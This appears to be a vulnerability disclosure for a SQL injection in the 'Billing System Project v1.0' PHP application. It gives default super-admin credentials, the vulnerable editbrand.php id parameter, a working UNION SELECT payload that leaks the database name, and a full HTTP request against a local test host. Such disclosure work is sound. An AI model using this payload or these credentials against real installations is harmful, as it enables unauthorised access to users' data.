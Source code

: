 # Billing System Project v1.0 by mayuri_k has SQL injection

BUG_Author: AuriGe

Login account: mayurik/rootadmin (Super Admin account)

vendors: https://www.sourcecodester.com/php/14831/billing-system-project-php-source-code-free-download.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /phpinventory/editbrand.php?id=

Vulnerability location: /phpinventory/editbrand.php?id=, id

dbname = store1,length=6

[+] Payload: /phpinventory/editbrand.php?id=-1%27%20union%20select%201,database(),3,4--+ // Leak place ---> id

```sql
GET /phpinventory/editbrand.php?id=-1%27%20union%20select%201,database(),3,4--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=5g4g4dffu1bkrg9jm7nr42ori2
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/191212218-187bccf1-9f2e-4b0a-ae7f-1527c210c45a.png)
